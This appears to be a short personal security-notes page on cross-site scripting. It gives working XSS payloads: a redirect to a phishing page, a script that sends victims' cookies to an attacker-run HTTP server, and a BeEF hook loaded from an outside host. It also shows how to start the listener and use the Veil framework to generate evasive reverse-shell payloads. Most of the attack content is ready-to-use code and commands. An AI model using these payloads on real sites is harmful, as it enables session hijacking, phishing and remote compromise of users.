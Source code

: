 ```yaml
---
title: Notes | XSS
author: Zeropio
date: 2021-12-12
categories: [Notes, Vulnerabilities]
tags: [xss]
permalink: /notes/vulnerabilities/xss
---
```



# General

If we have a form we can try to insert code, like this:
```html
<script> ... </script>
```
If the page execute what are in the form we can make several damage to the page.

There are some examples:
```html
<script> window.location="" </script>
```
This will send the target to a different page (phishing).

Also, if we use **deface** we can send a visitor to another part of the webpage. This can break the whole page.

# Blind XSS
We can use XSS to a cookie hijacking. First we need to start an http server, we can do it with python...:
```console
> python -m http.server 80
```
or php...:
```console
> php -S 0.0.0.0:80
```

Then we send others cookie to our http server:
```html
<script>document.write('<img src="http://192.168.0.2:80/xss.png?cookie="+ document.cookie + "')</script>
```

# Tools

## BeEF
We can use **BeEF** to capture traffic with XSS.
In a XSS we send:
```html
<script src="http://192.168.1.1:3000/hook.js"></script>
```

##### for both, reflected and stored

Then in the **BeEF** panel (http://localhost:3000/hook.js) we can registred the IP who open the page.

We can use the **commands** tab to send scripts to a victim.

## Veil Framework
First we need to install [Veil](https://github.com/Veil-Framework/Veil/).
After the installation we need to start Veil.

We can list everything with the command **list**, use the **Evasion** option. Then **list** again to get all the reverse shell payload.
It is recommendable to change the variables to be more *sneaky*.
##### similar use as metasploit
